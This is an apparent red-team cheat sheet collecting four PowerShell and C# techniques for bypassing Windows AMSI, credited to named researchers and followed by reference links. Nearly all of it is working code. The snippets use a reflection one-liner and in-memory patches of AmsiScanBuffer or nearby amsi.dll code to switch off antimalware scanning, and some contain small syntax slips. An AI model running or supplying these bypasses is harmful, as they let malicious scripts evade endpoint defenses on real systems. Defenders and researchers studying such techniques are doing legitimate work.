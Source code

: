 # AMSI Bypass

Search Tag(s): #helpers #weaponization #implant-development #defense-evasion

## Matt Graebers

`$ cat matt-graebers-amsi-bypass.ps1`

---

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Rasta Mouse

`$ cat rasta-mouse-amsi-bypass.ps1`

---

```powershell
$Win32 = @"  
using System;  
using System.Runtime.InteropServices;  
public class Win32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName)  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out lpflOldProtect)  
}  
"@  
Add-Type $Win32  
$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")  
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")  
$oldprotect = 0  
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$oldprotect)  
$Patch = [Byte[]] (0xb8, 0x57, 0x00, 0x80, 0xc3)  
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

## Am0nSec

`$ cat am0nsec-amsi-bypass.ps1`

---

```powershell
$Kernel32 = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class Kernel32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string lpLibFileName);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type $Kernel32  
  
Class Hunter {  
    static [IntPtr] FindAddress([IntPtr]$address, [byte[]]$egg) {  
        while ($true) {  
            [int]$count = 0  
  
            while ($true) {  
                [IntPtr]$address = [IntPtr]::Add($address, 1)  
                If ([System.Runtime.InteropServices.Marshal]::ReadByte($address) -eq $egg.Get($count)) {  
                    $count++  
                    If ($count -eq $egg.Length) {  
                        return [IntPtr]::Subtract($address, $egg.Length - 1)  
                    }  
                } Else { break }  
            }  
        }  
  
        return $address  
    }  
}  
  
[IntPtr]$hModule = [Kernel32]::LoadLibrary("amsi.dll")  
Write-Host "[+] AMSI DLL Handle: $hModule"  
  
[IntPtr]$dllCanUnloadNowAddress = [Kernel32]::GetProcAddress($hModule, "DllCanUnloadNow")  
Write-Host "[+] DllCanUnloadNow address: $dllCanUnloadNowAddress"  
  
If ([IntPtr]::Size -eq 8) {  
    Write-Host "[+] 64-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x4C, 0x8B, 0xDC,       # mov     r11,rsp  
        0x49, 0x89, 0x5B, 0x08, # mov     qword ptr [r11+8],rbx  
        0x49, 0x89, 0x6B, 0x10, # mov     qword ptr [r11+10h],rbp  
        0x49, 0x89, 0x73, 0x18, # mov     qword ptr [r11+18h],rsi  
        0x57,                   # push    rdi  
        0x41, 0x56,             # push    r14  
        0x41, 0x57,             # push    r15  
        0x48, 0x83, 0xEC, 0x70  # sub     rsp,70h  
    )  
} Else {  
	Write-Host "[+] 32-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x8B, 0xFF,             # mov     edi,edi  
        0x55,                   # push    ebp  
        0x8B, 0xEC,             # mov     ebp,esp  
        0x83, 0xEC, 0x18,       # sub     esp,18h  
        0x53,                   # push    ebx  
        0x56                    # push    esi  
    )  
}  
[IntPtr]$targetedAddress = [Hunter]::FindAddress($dllCanUnloadNowAddress, $egg)  
Write-Host "[+] Targeted address: $targetedAddress"  
  
$oldProtectionBuffer = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, 4, [ref]$oldProtectionBuffer) | Out-Null  
  
$patch = [byte[]] (  
    0x31, 0xC0,    # xor rax, rax  
    0xC3           # ret    
)  
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $targetedAddress, 3)  
  
$a = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, $oldProtectionBuffer, [ref]$a) | Out-Null
```

## Adam Chester

`$ cat adam-chester-amsi-bypass.ps1`

---

```powershell
$Winpatch = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class patch  
{  
    // https://twitter.com/_xpn_/status/1170852932650262530  
    static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };  
    static byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };  
  
    public static void it()  
    {  
        if (is64Bit())  
            PatchAmsi(x64);  
        else  
            PatchAmsi(x86);  
    }  
  
    private static void PatchAmsi(byte[] patch)  
    {  
        try  
        {  
            var lib = Win32.LoadLibrary("amsi.dll");  
            var addr = Win32.GetProcAddress(lib, "AmsiScanBuffer");  
  
            uint oldProtect;  
            Win32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);  
  
            Marshal.Copy(patch, 0, addr, patch.Length);  
            Console.WriteLine("Patch Sucessfull");  
        }  
        catch (Exception e)  
        {  
            Console.WriteLine(" [x] {0}", e.Message);  
            Console.WriteLine(" [x] {0}", e.InnerException);  
        }  
    }  
  
    private static bool is64Bit()  
        {  
            bool is64Bit = true;  
  
            if (IntPtr.Size == 4)  
                is64Bit = false;  
  
            return is64Bit;  
        }  
}  
  
class Win32  
{  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type -TypeDefinition $Winpatch -Language CSharp  
[patch]::it()
```

---
## References

- [AMSI Bypass Methods](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)

- [Amsi Bypass Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

- [AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)

- [Memory Patching AMSI Bypass](https://rastamouse.me/memory-patching-amsi-bypass/)

- [How to Bypass AMSI and Execute ANY Malicious Powershell Code](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)

- [PayloadsAllTheThings: Windows - AMSI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)